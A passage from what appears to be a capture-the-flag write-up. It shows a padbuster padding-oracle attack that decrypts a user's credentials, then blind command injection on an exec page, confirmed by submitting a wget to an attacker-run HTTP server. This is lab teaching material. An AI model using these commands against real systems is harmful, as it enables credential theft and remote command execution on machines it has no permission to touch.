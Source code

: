 I will use `padbuster` to perform the `Padding Oracle` attack against the website:

```bash
sudo apt install padbuster # Install padbuster
```

```bash
padbuster http://<target_ip>:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 2 -error "Decryption error"
```

- Provide the URL including the token
- Provide the ciphertext / token
- **16:** The blocksize --> Since we know `AES` is being used, the only valid blocksize for `AES` is `128 Bits` or `16 Bytes`
- **encoding:** 2 (Uppercase Hex)
- **error:** The error message that the application returns when padding error happens

![ea8c7fa6af81c40803f6dc85e09a3c7d.png](ea8c7fa6af81c40803f6dc85e09a3c7d.png){: w="700" h="300" .center}

Now Padbuster begins guessing byte by byte until we have the full plaintext.  
This will take a while so grab a cup of coffee and take a break.

After about 10-15 minutes we get the decrypted credentials for Stefan:  
![eb85ab9969fb05b71ca771a467dd10b6.png](eb85ab9969fb05b71ca771a467dd10b6.png){: w="700" h="300" .center}

## Flag 2

Now that we have Stefan's credentials we can navigate to `http://<target_ip>:8080/login.html` and login.

After logging in, we can see a button called `DEBUG`:  
![c1a6e3f33d79c29bd2be5dfd52a8d5ac.png](c1a6e3f33d79c29bd2be5dfd52a8d5ac.png){: w="700" h="300" .center}

Clicking on it simply navigates us to `/exec.html`

**Here you will find the second flag.**  
![0302677b37fa06bb79dcc17dcff4a55d.png](0302677b37fa06bb79dcc17dcff4a55d.png){: w="600" h="300" .center}

## Flag 3

After logging in as `Stefan`, we see an input box telling us to enter a command.

Running commands will either give us a generic `OK` message or simply no message at all.  
Running `wget` by itself gives us an `OK` message  
![ccd1f7ebeffd924f829a6be49ab872b1.png](ccd1f7ebeffd924f829a6be49ab872b1.png){: w="500" h="300" .center}

Let's test this and see if we can actually run commands on the machine:

```bash
python3 -m http.server 80 # Run on the attacker machine

wget <attack_ip>/test # Submit as command input
```

